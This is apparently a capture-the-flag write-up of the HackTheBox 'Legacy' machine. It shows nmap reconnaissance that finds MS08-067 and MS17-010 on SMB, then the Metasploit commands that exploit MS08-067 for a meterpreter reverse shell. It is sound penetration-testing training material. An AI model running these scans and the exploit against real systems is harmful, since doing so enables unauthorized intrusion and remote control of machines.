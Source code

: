 ```yaml
---
description: One of the first few boxes I've done!
---
```


# Legacy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:20 EDT
Nmap scan report for 10.129.85.242
Host is up (0.076s latency).
Not shown: 61445 closed tcp ports (conn-refused), 4087 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

This was an outdated machine, so there was bound to be some vulnerabilities with the SMB service. We can run some `nmap` scripts to determine this:

```
$ sudo nmap --script smb-vuln* -p 445 10.129.85.242 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:22 EDT
Nmap scan report for 10.129.85.242
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
We
Nmap done: 1 IP address (1 host up) scanned in 5.34 seconds
```

So this was vulnerable to MS08-067. We can use `msfconsole` to exploit this.&#x20;

```
use exploit/windows/smb/ms08_067_netapi
set LHOST 10.10.14.13
set RHOSTS 10.129.85.242
exploit
```

This would give us a meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

For some reason, `whoami` does not work on the machine. We can use the `whoami.exe` binary that is within Kali at `/usr/share/windows-resources/binaries` and run it via SMB.

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
